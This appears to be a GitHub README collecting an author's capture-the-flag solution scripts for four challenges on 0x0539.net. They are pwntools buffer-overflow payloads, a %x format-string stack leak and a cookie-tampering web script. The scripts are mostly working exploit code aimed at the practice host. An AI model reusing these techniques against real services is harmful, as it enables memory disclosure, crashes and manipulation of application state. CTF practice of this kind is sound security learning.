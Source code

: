 <h1 align="center">
	<img src="![unnamed](https://user-images.githubusercontent.com/86132648/131192790-bafa5664-7f7b-46a1-94f9-886f523e8c49.png)
" width="300px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	Pwn(host, port).exploit()

if __name__ == "__main__":
	main()
```

## Inizializzato Pizzaria
```py
from pwn import *


# Inizializzato Pizzaria
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444'
        connection = remote(self.host, self.port)
        connection.sendline(b'3')
        
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        
        connection.sendline(b'4')
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 3001
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```

## Bleed The Stack
```py
from pwn import *


# BleedTheStack
# Date: 08/27/21
# Author: 0x1CA3
# Note: The random numbers that are displayed once you run the exploit is the flag, you need to figure this part out yourself.


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x'
        connection = remote(self.host, self.port)
        connection.sendline(payload)
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 7070
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```
## Lucky Feeling
```py
import requests


# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
